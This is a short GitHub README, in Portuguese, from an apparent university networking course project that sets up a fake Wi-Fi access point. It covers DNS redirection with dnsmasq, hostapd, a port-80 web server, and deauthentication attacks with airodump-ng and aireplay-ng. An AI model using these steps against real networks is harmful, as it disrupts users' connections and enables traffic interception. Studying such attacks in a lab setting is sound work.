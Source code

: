 # fake_ap_redes2
fake ap repository for my group in "Redes 2"

# Montagem via Roteador

#### 1. Iniciar um servidor dns em seu computador
##### - Instale o dnsmasq em sua máquina
##### - Utilize o comando 
```sh
dnsmasq -C dnsmasqwrouter.conf
```
#### 2. Acessar as configurações do roteador e alterar o servidor dns para o ip do seu computador

#### 3. Iniciar o servidor web na porta 80, o mesmo em exemplo se encontra em docker para facil instalação

# Montagem via HostAPD
Essa montagem consiste em utilizar a interface de rede do computador como ponto de acesso

#### 1. Iniciar o servidor dns e dhcp
##### - Instale o dnsmasq em sua máquina
##### - Utilize o comando 
```sh
dnsmasq -C dnsmasq.conf
```

#### 2. Roteie a partir do seu computador
##### - Instale o hostapd
##### - Utilize o comando
```sh
hostapd hostapd.conf
```

#### 3. Incie o servidor web na porta 80, o mesmo encontra-se como exemplo em docker no repositorio


# Desautenticação

#### 1. Instale o airodump e aireplay

#### 2. Utilizar o airodump para encontrar o endereço MAC do alvo
```sh
airodump-ng <interface de rede>
```

#### 3. Utilizar o aireplay para lançar os pacotes de deauth
```sh
aireplay-ng -a <Endereço MAC do alvo> -0 <Número de pacotes a enviar> <interface de rede responsavel>
```
Obs: Certifique-se de que sua interface de rede está no mesmo canal do ponto de acesso alvo, para isso, observe o canal do ap alvo com o airodump e use comando a baixo para trocar o canal da interface de rede
```sh
airodump-ng -c <canal> <interface de rede>
```
